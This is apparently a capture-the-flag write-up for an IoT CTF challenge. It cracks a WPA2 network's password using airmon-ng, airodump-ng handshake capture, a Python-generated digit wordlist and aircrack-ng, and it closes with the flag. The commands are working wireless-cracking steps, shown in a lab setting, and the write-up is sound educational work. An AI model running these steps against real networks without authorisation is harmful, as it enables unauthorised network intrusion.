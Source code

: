 # Home Invasion Wifi Password - 1000

> Home Invasion WiFi password
>  
> This challenge will require you to intelligently guess the password for the Home Invasion WiFi password. You need this password to complete the other challenges. There is no dynamic points for this challenge. Submit your answer in the following format HI{12341234}. Hint: There are only eight digits to this password. The last four digits are the same as the first four digits; that should narrow your options down. Happy Hunting!

We were told to connect to a wireless access point called `Home Invasion` or `Home Invasion 5G`. However, no password was given.

### Preparing the wireless interface

Thus, we used the `aircrack-ng` suite of tools to brute-force the wifi password. 

We followed the guide on [this website](https://github.com/brannondorsey/wifi-cracking) closely.


First we ran `iw dev` to find the name of our wireless interface.
```
✗ iw dev
phy#0
	[...]
	Interface wlp1s0
	[...]
```

Then, we placed said wireless interface under monitor mode to listen to 802.11 Beacon frames. We listened to the Beacon frames by running `airodump-ng <interface>`.
```
$ airmon-ng start wlp1s0
[...]
$ iw dev
	[...]
	Interface wlp1s0mon0
	[...]
$ airodump-ng wlp1s0mon0
```

After sniffing the Beacon frames, and identifying our target wifi's BSSID, we proceeded to capture `Home Invasion`'s 4-way handshake.
The command for the capture was `airodump-ng -c 3 --bssid 34:97:F6:01:93:48 -w ./capture.cap wlp1s0mon0`
![](../../img/iot_ctf2018_wifi_passwd_handshake.png)

### Preparing the wordlist

The hint that "the last four digits are the same as the first four digits" shortens the dictionary list by a large margin. Because of this clue, we only have ` 10 ^ 4  = 10 000` different combinations to try. We created the small Python script below to help us generate the word list.
```
>>> for i in range(1,10000):
...     print("%04d%04d" % (i,i))
```

We used `'0'` as paddings because we wanted to ensure that each word in the word list was 8 digits.
```
00010001
[...]
00090009
00100010
00110011
00120012
00130013
[...]
99879987
99889988
99899989
99909990
99919991
99929992
99939993
99949994
99959995
99969996
99979997
99989998
99999999
```

### Combining both together

After copying and pasting the output into a file called `word_list`, we used the following command to crack the password. 
```
# -a2 specifies WPA2, -b is the BSSID, -w is the wordfile
aircrack-ng -a2 -b 34:97:F6:01:93:48 -w word_list capture.cap
```

The image below shows that the command successfully returned us the password for the wifi.
![](../../img/iot_ctf2018_wifi_passwd_cracking_passwd.png)


In conclusion, the flag input is `HI{96859685}`.
